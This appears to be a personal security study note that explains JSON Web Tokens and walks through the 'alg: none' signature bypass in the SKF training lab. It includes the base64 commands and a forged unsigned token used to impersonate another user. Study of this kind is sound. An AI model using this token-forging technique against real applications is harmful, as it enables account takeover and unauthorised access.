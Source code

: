 ```yaml
---
tags:
  - vulnerabilty
  - "#jsonwebtoken"
---
```

# What is a JSON Web Token

Is a open standard that allow the creations of tokens of access that allow to give identity, privilege to a user

![](../../Images/jwt_ng1_en.png)

JSON Web Token are divided in three parts, the separator is a point ( . ):

1. Header. 
2. Payload. Contain the main information
3. Signature. Verify the integrity of the token to avoid possible manipulation

In the signature you have a **secret**, that is a hard-coded key that only can find in a internal config file 

If you have the secret (because you obtain with some local file inclusion or something like that) you can generate a new JSON Web Token and no matter what you put in the payload

---

# Exploiting JWT NULL cipher

![](../../Images/Pasted%20image%2020230906133710.png)

Sometimes some JWT accept none like **alg** (algorithm, this is in header), if they allow to put this, the signature part is not necessary and can be omitted.

In this case we are going to try to login like user2, but we are user

Open the developer tools of the browser and take the JWT of user

For do this you have to Authenticate that give you the JWT and then click in Admin button, now if you go **local storage** you can see the **access_token**

Go to [jwt.io](https://jwt.io) and put the token

![](../../Images/Pasted%20image%2020230906135205.png)

Now we can image that the next user is **id: 2**

The header and payload of the JWT is in base64, we can create our JWT

This is the header:

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64
```

````bash
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
````

Now we are going to do the payload:

Look that we are changing the id, we imagine that the user2 have the id:2

````bash
echo -n '{"id":2,"iat":1694001032,"exp":1694004632}' | base64
````

````bash
eyJpZCI6MiwiaWF0IjoxNjk0MDAxMDMyLCJleHAiOjE2OTQwMDQ2MzJ9
````

Now, how it is not necessary to put a cipher we don't have to put **signature** (this would be the problem because we don't have the secret)

Remove the **equal** if not you can't login as user2

````bash
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjk0MDAxMDMyLCJleHAiOjE2OTQwMDQ2MzJ9.
````

Now Authenticate like user and click in admin button and change the JWT by the new that we generate

![](../../Images/Pasted%20image%2020230906140441.png)
Nice!!, we authenticate like user2

![](../../Images/Pasted%20image%2020230906140456.png)

---

# JWT secret



---

# Labs

- [https://github.com/blabla1337/skf-labs](https://github.com/blabla1337/skf-labs)

We are going to start with **skf-labs/nodeJs/JWT-null/**

> sudo npm install

> sudo npm start

